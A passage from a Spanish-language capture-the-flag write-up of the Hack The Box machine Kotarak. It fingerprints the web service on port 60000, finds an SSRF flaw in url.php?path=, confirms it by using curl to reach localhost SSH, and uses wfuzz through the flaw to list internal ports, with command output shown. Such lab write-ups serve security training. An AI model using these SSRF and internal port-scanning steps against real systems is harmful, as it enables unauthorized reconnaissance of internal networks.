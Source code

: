 De momento lo dejo de lado

## Puerto 60000 (HTTP)

Con ```whatweb``` analizo las tecnologías que utiliza el servicio web

```null
whatweb http://10.10.10.55:60000
http://10.10.10.55:60000 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.55], Title[Kotarak Web Hosting][Title element contains newline(s)!]
```

La página principal se ve así:

<img src="/writeups/assets/img/Kotarak-htb/2.png" alt="">

Al introducir cualquier campo en el formulario me redirige a ```http://10.10.10.55:60000/url.php?path=test```, donde 'test' es el input. Es vulnerable a SSRF

```null
curl -s -X GET 'http://10.10.10.55:60000/url.php?path=http://localhost:22'
SSH-2.0-OpenSSH_7.2p2 Ubuntu-4ubuntu2.2
Protocol mismatch.
```

Utilizo ```wfuzz``` para descubrir puertos abiertos

```null
wfuzz -c --hh=2 -t 200 -z range,1-65535 'http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ'
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.55:60000/url.php?path=http://localhost:FUZZ
Total requests: 65535

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                        
=====================================================================

000000022:   200        4 L      4 W        62 Ch       "22"                                                                                                                                           
000000320:   200        26 L     109 W      1232 Ch     "320"                                                                                                                                          
000000200:   200        3 L      2 W        22 Ch       "200"                                                                                                                                          
000000090:   200        11 L     18 W       156 Ch      "90"                                                                                                                                           
000000888:   200        78 L     265 W      3955 Ch     "888"                                                                                                                                          
```